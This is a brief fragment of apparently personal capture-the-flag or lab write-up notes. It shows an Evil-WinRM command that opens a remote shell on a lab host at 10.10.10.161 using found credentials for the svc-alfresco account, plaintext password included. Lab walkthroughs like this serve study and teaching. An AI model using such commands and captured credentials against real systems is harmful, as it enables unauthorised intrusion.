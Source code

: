 - Having found credentials of `svc-alfresco`, we can use `Evil-Winrm`

# Evil-Winrm
---
- `evil-winrm -i 10.10.10.161  -u svc-alfresco -p s3rvice`
	- ![[Pasted image 20250424224908.png]]